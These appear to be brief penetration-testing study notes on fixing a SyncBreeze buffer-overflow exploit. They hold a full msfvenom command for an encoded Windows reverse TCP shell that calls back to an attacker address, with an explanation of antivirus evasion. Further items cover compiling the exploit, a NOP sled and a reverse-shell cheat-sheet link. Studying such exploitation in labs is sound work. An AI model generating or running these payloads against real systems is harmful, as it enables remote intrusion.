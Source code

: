 # fixing exploit (memory issue)
- Generate new shell code
    
    -p windows/shell_reverse_tcp: This specifies the payload to use, in this case a Windows reverse TCP shell. This payload will cause the target system to connect back to the attacker's system and provide a command shell.

    EXITFUNC=thread: This specifies the exit function to use when the shellcode is executed. The "thread" option causes the shellcode to exit by terminating the current thread, rather than the entire process.

    -f c: This specifies the output format for the shellcode, in this case C code.

    -e x86/shikata_ga_nai: This specifies the encoder to use for the shellcode, in this case the "shikata_ga_nai" encoder. This encoder is used to obfuscate the shellcode and make it more difficult to detect by antivirus software.

    -b "\x00\x0a\x0d\x25\x26\x2b\x3d": This specifies a list of bad characters to avoid in the shellcode. These characters are often used in string termination or other special functions, and can cause problems if they are included in the shellcode.

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

```
- compile c to exe
  -lws2_32 means using library ws2_32
``` i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32 ```

# Staged vs stageless shellcode
- https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#windows-staged-reverse-tcp 

# Buffer Overflow
- NOP Slide is the king (sometime) dont accidently remove it when replacing shellcode
  ``` "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" ```

# Running Perl exploit
1. ``` perl ./xxx.pl ........```
